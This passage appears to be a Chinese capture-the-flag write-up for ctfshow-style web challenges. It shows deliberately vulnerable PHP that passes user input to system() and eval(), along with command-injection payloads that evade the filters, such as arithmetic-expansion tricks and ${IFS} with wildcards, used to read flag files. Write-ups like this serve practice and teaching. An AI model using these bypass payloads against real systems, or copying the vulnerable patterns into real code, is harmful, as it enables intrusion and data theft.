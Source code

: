 > 
抓包，构造`?c=.+/???/????????[@-[]`


## web57

> 
源码


```
&lt;?php

// 还能炫的动吗？
//flag in 36.php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|[0-9]|\`|\|\#|\'|\"|\`|\%|\x09|\x26|\x0a|\&gt;|\&lt;|\.|\,|\?|\*|\-|\=|\[/i", $c)){
        system("cat ".$c.".php");
    }
}else{
    highlight_file(__FILE__);
}

```

> 
Payload


```
$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~
$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~
$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~
$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~
$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~
$(())))$((~$(())))$((~$(())))))))
或者
?c=grep${IFS}'fla'${IFS}fla??php

```

## web58

> 
源码


```
&lt;?php

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}

```

